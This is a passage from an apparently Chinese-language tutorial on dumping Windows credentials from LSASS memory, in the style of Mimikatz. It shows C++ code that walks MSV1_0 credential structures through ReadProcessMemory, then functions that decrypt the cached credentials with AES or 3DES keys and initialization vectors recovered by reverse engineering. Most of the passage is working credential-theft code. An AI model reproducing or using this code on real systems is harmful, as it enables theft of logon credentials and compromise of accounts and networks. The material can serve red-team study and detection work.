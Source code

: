 ```c++
							}
							LocalFree(primaryCredentials.Credentials.Buffer);
						}
					}
					else
						wprintf(L"[-] MSV1_0_PRIMARY_CREDENTIALS No.");
					lsassMemory.address = primaryCredentials.next;
				}
			}
			lsassMemory.address = credentials.next;
		}
		else
			wprintf(L"[-] MSV1_0_CREDENTIALS No.");
	}
	return status;
}
```

在 `Msv1_0EnumerateCreds()` 函数中，经过几次 `ReadProcessMemory()` 调用后，成功获取到主要凭据，并将其传入自定义函数 `Msv1_0CredsOutput()`。

### 3.2.2 解密用户凭据内存

前文中曾提到，用户的登录凭据由 `LsaProtectMemory()` 函数调用后在内存中加密缓存，因此这里根据前文 “2.1.4 提取 BCrypt 密钥和初始化向量” 中的逆向结果编写了 `LsaUnprotectMemory()`  和 `LsaEncryptMemory()` 两个函数，用来对包含凭据的内存进行解密，如下所示。

```c++
BOOL LsaUnprotectMemory(PVOID Buffer, ULONG BufferSize)
{
	return LsaEncryptMemory((PUCHAR)Buffer, BufferSize, FALSE);
}


BOOL LsaEncryptMemory(PUCHAR pMemory, ULONG cbMemory, BOOL Encrypt)
{
	BOOL status = FALSE;
	BCRYPT_KEY_HANDLE* hKey;
	BYTE LocalInitializationVector[16];
	ULONG cbIV, cbResult;

	RtlCopyMemory(LocalInitializationVector, InitializationVector, sizeof(InitializationVector));
	if (cbMemory % 8)
	{
		hKey = &kAes.hKey;
		cbIV = sizeof(InitializationVector);
	}
	else
	{
		hKey = &k3Des.hKey;
		cbIV = sizeof(InitializationVector) / 2;
	}
	if(Encrypt)
		status = NT_SUCCESS(BCryptEncrypt(*hKey, pMemory, cbMemory, 0, LocalInitializationVector, cbIV, pMemory, cbMemory, &cbResult, 0));
	else
		status = NT_SUCCESS(BCryptDecrypt(*hKey, pMemory, cbMemory, 0, LocalInitializationVector, cbIV, pMemory, cbMemory, &cbResult, 0));

	return status;
}
```
